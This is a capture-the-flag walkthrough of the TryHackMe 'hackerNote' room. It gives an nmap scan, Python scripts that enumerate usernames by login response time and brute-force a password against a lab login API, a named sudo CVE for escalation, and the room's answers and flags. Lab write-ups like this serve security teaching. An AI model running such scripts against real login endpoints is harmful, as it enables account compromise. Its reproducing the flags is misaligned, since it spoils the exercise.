




# hackerNote - TryHackMe

A custom webapp, introducing username enumeration, custom wordlists and a basic privilege escalation exploit.

## Overview

- **Room URL:** [https://tryhackme.com/room/hackernote](https://tryhackme.com/room/hackernote)
- **Difficulty:** Medium
- **Time to complete:** 75

## Walkthrough

### 1. Reconnaissance

- <p>Which ports are open? (in numerical order)</p>

```bash
nmap -v -sV <MACHINE_IP>
```



**=> Answer: `22,80,8080`**

- <p>What programming language is the backend written in?</p>



**=> Answer: `Go`**

### 2. Investigate

```
Notice:
- When we login to an existing account with wrong password, it takes longer to respond
- When we login to an invalid account (not exist), it takes faster to respond
```

_No answers needed_

### 3. Exploit

- <p>Try to write a script to perform a timing attack.</p>

I created a automated Python script to run the brute-force request then take out the top 80% of request that takes the longest for us to try again on the UI, I use the `names.txt` file from [https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt):

```python
import time
import requests

TARGET = "http://10.48.141.32/api/user/login"
results = []

with open('./names.txt', 'r') as file:
   for line in file:
       username = line.strip()
       start_time = time.perf_counter()
       res = requests.post(TARGET, data={"username": username, "password": "invalid!"})
       end_time = time.perf_counter()

       duration = end_time - start_time
       results.append({"username": username, "time": duration})

       print(f"{username} takes {duration:.4f} seconds")
       time.sleep(0.01)

results.sort(key=lambda x: x['time'], reverse=True)

cutoff = int(len(results) * 0.8)
top_80_percent = results[:cutoff]


print(f"\nTop 80% longest requests")
for entry in top_80_percent:
   print(f"{entry['username']}: {entry['time']:.4f}s")
```

- How many usernames from the list are valid?

**=> Answer: `1`**

- <p>What are/is the valid username(s)?</p>

**=> Answer: `james`**

### 4. Attack Passwords

Now we have the hint


- <p>How many passwords were in your wordlist?</p>

**=> Answer: `180`**

- <p>What was the user's password?</p>

My script:

```python
import requests

TARGET = "http://10.48.141.32/api/user/login"

with open('./hash.txt', 'r') as file:
   for line in file:
       password = line.strip()

       res = requests.post(TARGET, data={"username": "james", "password": f"{password}"})


       if "Invalid Username Or Password" not in res.text:
           print(f"Found pass {password}")
           break
```

**=> Answer: `blue7`**

- <p>What's the user's SSH password?</p>

**=> Answer: `dak4ddb37b`**

- <p>What's the user flag?</p>



**=> Answer: `thm{56911bd7ba1371a3221478aa5c094d68}`**

### 5. Escalate

- <p>What is the CVE number for the exploit?</p>

**=> Answer: `CVE-2019-18634`**

- <p>What is the root flag?</p>

**=> Answer: `thm{af55ada6c2445446eb0606b5a2d3a4d2}`**

### 6. Comments on realism and Further Reading

_No answers needed_
